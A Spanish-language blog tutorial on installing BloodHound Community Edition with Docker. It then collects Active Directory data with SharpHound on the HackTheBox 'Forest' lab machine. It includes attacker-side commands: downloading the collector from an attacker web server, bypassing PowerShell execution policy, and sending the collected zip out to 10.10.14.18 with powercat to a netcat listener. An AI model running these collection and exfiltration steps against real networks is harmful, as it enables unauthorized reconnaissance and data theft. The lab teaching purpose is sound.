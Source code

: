 
---
title: "Cómo Configurar BloodHound Community Edition"
summary: "Explicación rápida sobre cómo poner en funcionamiento BloodHound en unos minutos. Esta publicación incluye una guía de instalación paso a paso de **BloodHound**, así como la descarga de **SharpHound** y su carga en una máquina para mapear una red de Active Directory."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** es una herramienta poderosa y ampliamente utilizada en el campo de la ciberseguridad, particularmente para los evaluadores de penetración en entornos corporativos. Está diseñada para mapear y analizar las estructuras de Active Directory, ayudando a identificar configuraciones de seguridad incorrectas y posibles rutas de ataque que un adversario podría explotar para escalar privilegios u obtener acceso a recursos confidenciales.

**BloodHound** opera mediante la recopilación y visualización de relaciones dentro de un dominio de AD. Estas relaciones incluyen membresías de grupos, permisos de usuario, relaciones de confianza y más. La fortaleza de la herramienta radica en su capacidad para descubrir cadenas complejas de privilegios que podrían ser invisibles para los administradores que auditan manualmente la seguridad de AD.

Realizaremos una instalación rápida paso a paso de la versión comunitaria de **BloodHound**, así como un pequeño tutorial paso a paso sobre cómo ejecutar **BloodHound** y **SharpHound** tomando como ejemplo la máquina [Forest]({{< ref "pt/post/forest/index.md" >}} "Forest") de HackTheBox. ¡Échale un vistazo si aún no lo has hecho a mi post!

¡Comencemos!

- - -
## Instalación
Primero, necesitamos instalar _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Luego, crea el grupo _docker_ si no existe:

```bash
kali@kali:~$ sudo groupadd docker
```

Añade tu usuario al grupo _docker_:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Ahora, instala **docker-compose** desde [github](https://github.com/docker/compose/). Además, recuerda otorgarle derechos de ejecución al binario y agregarlo al directorio `/usr/bin`.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Por último, necesitamos copiar el archivo `docker-compose.yml` de **BloodHound** para guardarlo localmente:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** estará disponible en el puerto 8080.
- - -
## SharpHound
**SharpHound** es el componente de recopilación de datos de BloodHound. Es una herramienta de C# diseñada para recopilar información de entornos de Active Directory, que luego BloodHound utiliza para mapear y analizar rutas de ataque. SharpHound recopila datos como sesiones de usuario, membresías de grupos, listas de control de acceso (ACL) y relaciones de confianza, lo que brinda a los evaluadores de penetración y analistas de seguridad una vista detallada del entorno.

Los datos recopilados se almacenan en archivos JSON, que luego se importan a BloodHound para visualización y análisis. Juntos, SharpHound y BloodHound son un dúo poderoso para identificar y comprender las debilidades de seguridad en los dominios de AD.

- - -
## Uso de BloodHound y SharpHound

Primero, iniciemos sesión en **BloodHound**. Ya lo tenemos en ejecución, por lo que debemos acceder a él en `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> La primera vez que accedamos a **BloodHound**, necesitaremos ingresar la contraseña generada aleatoriamente que se encuentra en la ventana de terminal donde se está ejecutando `docker-compose`. Luego, necesitaremos cambiarla. El usuario predeterminado es **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Ahora, en la pestaña _Descargar recopiladores_, podemos descargar la última versión de **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Aquí, selecciona **SharpHound**, ¡y estamos casi listos para comenzar a recopilar datos! Solo quedan unos pocos pasos más:

![bloodhound4](/img/bloodhound/bloodhound4.png)

A continuación, carga el ejecutable **SharpHound** en la máquina Windows cuyo Active Directory deseas mapear. Desde nuestra máquina atacante, servimos **SharpHound** desde un servidor _Python_:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina Windows, descargamos **SharpHound** con el siguiente comando:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

Después de transferirlo a la máquina Windows, podemos importarlo a PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Ahora, podemos ejecutar el script para recopilar toda la información del dominio. **SharpHound** se basa principalmente en consultas `LDAP` para recopilar datos de Active Directory. Dado que las consultas LDAP son una parte estándar de la comunicación de dominio, cualquier usuario autenticado en el dominio puede ejecutarlas, por lo que SharpHound no requiere privilegios administrativos para la mayoría de sus operaciones.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

Después de la ejecución, veremos un archivo **zip** con toda la información. Eso es lo que necesitamos transferir de vuelta a nuestra máquina atacante. El archivo .bin que **BloodHound** genera es un archivo binario que se utiliza como caché para datos preprocesados. Cuando importa archivos JSON recopilados por SharpHound en BloodHound, procesa los datos y los almacena en una base de datos Neo4j.

El archivo `.bin` sirve como caché local de estos datos procesados ​​para mejorar el rendimiento, pero no necesariamente necesitamos transferirlos de vuelta a nuestra máquina, por lo que lo ignoraremos.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

Podemos usar nuestro método de transferencia favorito, yo usaré `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

En nuestra máquina atacante, necesitamos abrir un receptor `netcat` para recibir los datos:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip
listening on [any] 4444 ...
connect to [10.10.14.18] de (DESCONOCIDO) [10.10.10.161] 50906
```

Una vez que tengamos el archivo zip en nuestra máquina, vamos a subirlo a **BloodHound**. Primero, presione la opción _Administración_.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Importe el archivo zip en la opción _Ingesta de archivos_, en la sección _Recopilación de datos_:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Haga clic y seleccione el archivo _zip_:

![bloodhound5](/img/bloodhound/bloodhound5.png)

¡Genial! Se subió con éxito.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Enseñar cómo hacer consultas con **BloodHound** no está dentro del alcance de esta publicación, pero ejecutemos una consulta rápida "_Shortest Paths to Domain Admins_" para verificar si la ingesta de datos fue exitosa.
![bloodhound7](/img/bloodhound/bloodhound7.png)

¡Funciona! Ahora tiene una instancia de **BloodHound** completamente funcional y en funcionamiento, lista para mapear y analizar su entorno de Active Directory.

## Detener la instancia

Detener la instancia es tan fácil como presionar `Ctrl+C` en la ventana de terminal donde se está ejecutando `docker-compose`.

![bloodhound8](/img/bloodhound/bloodhound8.png)

Si desea configurarlo nuevamente, simplemente ejecute `docker-compose up` y estará listo.

Espero que esta guía te haya resultado útil para configurar todo sin problemas, ya que configurar un entorno de **BloodHound** puede ser complicado al principio. ¡Pruébalo!